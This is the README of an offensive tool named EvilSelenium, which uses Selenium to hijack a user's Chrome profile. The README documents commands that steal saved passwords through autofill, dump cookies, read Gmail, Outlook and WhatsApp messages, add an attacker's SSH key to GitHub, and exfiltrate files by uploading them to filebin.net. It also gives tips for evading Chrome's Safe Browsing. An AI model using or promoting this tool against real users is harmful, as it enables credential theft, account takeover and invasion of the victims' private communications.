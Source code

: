 # EvilSelenium
EvilSelenium is a beta project that weaponizes <a href="https://www.selenium.dev/">Selenium</a> to abuse Chrome. The current features right now are:

* Steal stored credentials (via autofill)
* Steal cookies
* Take screenshots of websites
* Dump Gmail/O365 emails
* Dump WhatsApp messages
* Download & exfiltrate files
* Add SSH keys to GitHub

Easily extend the existing functionality to suit your needs (e.g. Download files from the user's GDrive/OneDrive).

# Note

1. When this tool is run it will terminate any existing Chrome processes in order to be able to run with the user's Chrome profile which has the passwords & active sessions.

2. I built this tool in about a week & I didn't run as many tests as I should therefore there may be some bugs.

# Usage
	
	EvilSelenium.exe /?

    /help - Show this help menu.

    SETUP:
    /install - Install chromedriver & Selenium webdriver. Run this once.

    RECON:
    /enumsavedsites [out_path] - Check which websites have passwords saved via screenshot(s).
    /screenshot [website] [out_path] - Screenshot a given webpage.

    CREDENTIALS:
    /autorun - Extract saved credentials from common websites.
    /dynamicid [login_page] [username_id] [password_id] - Extract saved credentials from a website, providing the username field ID & password field ID.
    /dynamicname [login_page] [username_name] [password_name] - Extract saved credentials from a website, providing the username field name value & password name value.
    /dynamicname2 [login_page] [username_position] [password_position] [username_name] [password_name] - Extract saved credentials from a website, providing the username field name value, password name value and their positions.

    COOKIES:
    /cookies [website] - Grabs cookies for a given website.

    MODULES:
    /download [file_url] [seconds] - Downloads a file and specify time to wait for download to finish. File extensions should not be executable.
    /exfil [local_file] [seconds] - Uploads a file on filebin.net and outputs the download link.
    /gmail [out_path] [num_of_emails] - Fetches emails from mail.google.com if user is authenticated. Max 50 emails.
    /outlook [out_path] [num_of_emails] - Fetches emails from Outlook if user is authenticated.
    /o365 [out_path] [num_of_emails] - Fetches emails from O365 Outlook if user is authenticated.
    /github [key] - Add your SSH key to Github if user is authenticated.
    /whatsapp [out_path] - Fetches Whatsapp messages if user is authenticated (BETA).

# Setup

The `/install` command will download the Chrome Driver and Selenium WebDriver which are the necessary requirements. EvilSelenium will work on Chrome versions 98-90.

**Tested on Windows 10, Chrome v97 & v90.**

	EvilSelenium.exe /install

# Recon Module

`/enumsavedsites` - This will take screenshots of chrome://settings/passwords

`/screenshot` - Screenshot any website. If the user is authenticated to the website then you get authenticated screenshots :).

# Credentials Module

**IMPORTANT:** The credentials module will **DELETE COOKIES** in order to steal credentials from autofill. Ideally, you should use the credentials module at the end if you want to export cookies.

`/autorun` - I pre-built credential stealer templates for common websites. I'll continue to add more.

`/dynamicid` - Provide the login URL along with the username input field's ID and password field's ID. This is equivalent to document.getElementById().

`/dynamicname` - If the fields don't have IDs, provide the fields' name values. It will pick the first index of the name values. This is equivalent to document.getElementsByName()[0].value.

`/dynamicname2` - Provide the fields' name values along with their index position. This is equivalent to document.getElementsByName()[x].value.

# Cookies Module

`/cookies` - Dumps cookies from the specified website.

# Misc Modules

These are additional modules I built to demonstrate what sort of actions you can do with Selenium.

`/download` - Download a file & specify time to wait for the download. A non-executable file extension should be appended to the file before downloading to avoid Chrome's Safebrowsing prompt.

`/exfil` - Uploads a file on filebin.net & specify the time to wait for the upload to complete. Once the upload is completed the file's download link is written.

`/gmail` - Fetches emails from mail.google.com if user is authenticated. Max 50 emails.

`/outlook` - Fetches emails from Outlook if user is authenticated.

`/o365` - Fetches emails from O365 Outlook if user is authenticated.

`/github` - Add your SSH key to Github if user is authenticated.

`/whatsapp` - Fetches Whatsapp messages if user is authenticated (BETA).

# Example

![Example](https://github.com/mrd0x/EvilSelenium/blob/main/demo-1.png)
